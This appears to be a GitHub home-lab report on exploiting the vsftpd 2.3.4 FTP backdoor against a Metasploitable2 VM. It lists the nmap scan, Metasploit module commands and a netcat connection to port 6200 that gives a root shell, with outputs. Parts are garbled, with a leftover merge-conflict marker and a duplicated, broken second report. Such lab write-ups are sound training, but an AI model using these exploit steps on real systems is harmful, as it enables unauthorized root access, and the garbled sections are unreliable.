




# 📊 Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

### 🎯 Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.

---

### 📍 Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |

---

### 🔎 Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

---

### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan

```bash
nmap -sV 192.168.56.102 -p 21
```

**Result**:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

#### 2. Exploit with Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```

**Result**:

```
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

```bash
nc 192.168.56.102 6200
whoami
```

**Result**:

```
root
```

---

### ✅ Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

<<<<<<< HEAD
### 📸 Screenshots

* Nmap scan result:()
* Metasploit output and Netcat shell with 'root':()
* attacker network setup:()
* kali ping target :()
* metasploitable network setup:()

---

---


# Lab Report – vsftpd 2.3.4 Backdoor

## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

whoa*Result**:
root

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot:&#x20;

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
